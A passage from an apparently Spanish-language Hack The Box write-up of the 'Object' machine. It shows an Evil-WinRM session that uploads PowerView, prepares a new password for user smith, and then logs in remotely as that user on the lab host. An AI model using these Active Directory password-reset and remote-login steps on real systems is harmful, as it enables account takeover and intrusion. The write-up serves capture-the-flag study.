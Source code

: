 <img src="/writeups/assets/img/Object-htb/14.png" alt="">

Primero le cambio la contraseña a ```smith```

```null
*Evil-WinRM* PS C:\Temp> $SecPassword = ConvertTo-SecureString 'rubbx' -AsPlainText -Force
*Evil-WinRM* PS C:\Temp> upload /opt/PowerSploit/Recon/PowerView.ps1
Info: Uploading /opt/PowerSploit/Recon/PowerView.ps1 to C:\Temp\PowerView.ps1

                                                             
Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Temp> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Temp> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```

Me conecto por winrm como este usuario

```null
evil-winrm -i 10.10.11.132 -u 'smith' -p 'Password123!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\smith\Documents> 
```
